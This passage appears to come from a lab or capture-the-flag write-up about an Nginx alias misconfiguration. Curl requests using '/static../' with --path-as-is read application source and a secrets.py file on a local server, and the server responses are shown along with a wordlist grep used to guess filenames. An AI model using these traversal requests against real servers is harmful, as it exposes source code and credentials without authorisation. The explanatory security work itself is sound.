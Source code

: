 Now that cannot be much, but what happens when we introduce traversal characters:
```bash
╰─[:)] % curl 'http://127.0.0.1/static..' --path-as-is -I
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Mon, 10 Mar 2025 06:43:03 GMT
Content-Type: text/html
Content-Length: 162
Location: http://127.0.0.1:3000/static../
Connection: keep-alive
```

We are met with a **301**, which is a status code that comes up when Nginx encounters a directory, since its not a proper file it just details an error indicating it was mode permanently.

Let us step through the request again:
```
url = http://127.0.0.1/static..
location = /static
path = ..
full path = /www/application/app/static/ + path
full path = /www/application/app/static/.. = /www/application/app/
```
- This shows it tried to access the `app` directory as a file, but that is not the case hence it raised the 301 error.

Now by default, this allows us to access directories and files within those directories:
```bash
╰─[:)] % curl 'http://127.0.0.1/static../blueprints/shop.py' --path-as-is -I
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 10 Mar 2025 06:52:24 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 4837
Last-Modified: Mon, 10 Mar 2025 04:59:55 GMT
Connection: keep-alive
ETag: "67ce71cb-12e5"
Accept-Ranges: bytes
```
- This allows us to access to a file that may be impossible at first. This is how we have arbitrary read within an internal environment. Nginx assumes the first path traversal piece is part of the required path, but if we introduce more path traversal characters it filters them out and ignores it. 

Hence we need to focus on any potential files, we could bruteforce the files:
```bash
╰─[:)] % grep -ar '^secrets$' /usr/share/seclists/Discovery/Web-Content 
/usr/share/seclists/Discovery/Web-Content/api/api-endpoints-res.txt:secrets
/usr/share/seclists/Discovery/Web-Content/api/objects.txt:secrets
/usr/share/seclists/Discovery/Web-Content/dutch/new/11.txt:secrets
```
If we assume that we can enumerate the source code chances of there existing files with `*.py` appended exists widely!

```bash
╰─[:)] % curl 'http://127.0.0.1/static../secrets.py' --path-as-is -I
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 18 Mar 2025 05:27:57 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 75
Last-Modified: Tue, 18 Mar 2025 05:15:31 GMT
Connection: keep-alive
ETag: "67d90173-4b"
Accept-Ranges: bytes
``` 
- Meaning that if we have sensitive stuff, like above we can compromise a system.
In this case, it was simple. But in some cases, we have upload functionality with a tarslip chained together to achieve full arbitrary read. 